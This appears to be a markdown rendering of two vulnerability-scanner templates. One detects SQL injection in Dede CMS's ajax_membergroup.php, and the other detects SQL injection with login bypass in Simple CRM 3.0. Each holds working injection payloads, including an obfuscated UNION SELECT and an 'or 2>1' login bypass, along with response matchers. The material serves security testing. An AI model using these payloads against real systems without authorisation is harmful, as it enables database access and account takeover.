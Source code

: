 # Dede CMS - SQL Injection
## Description
- Dede CMS contains a SQL injection vulnerability which allows remote unauthenticated users to inject arbitrary SQL statements via the ajax_membergroup.php endpoint and the membergroup parameter.
- severity - critical
- tags - sqli,dedecms
## Requests
- Method - GET
### URL
- {{BaseURL}}/member/ajax_membergroup.php?action=post&membergroup=@`'`/*!50000Union+*/+/*!50000select+*/+md5({{num}})+--+@`'`
### Matchers

**Type - word**
- words
    1. {{md5({{num}})}}
- part - body

**Type - status**
- status
    1. 200

---
# Simple CRM 3.0 SQL Injection and Authentication Bypass
## Description
- Simple CRM 3.0 is susceptible to SQL injection and authentication bypass vulnerabilities.
- severity - critical
- tags - packetstorm,sqli,simplecrm,auth-bypass,injection
## Requests
- Method - POST
- Method - POST
### URL
- {{BaseURL}}/scrm/crm/admin
  - email='+or+2>1+--+&password=&login=
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. <script>window.location.href='home.php'</script>
- part - body
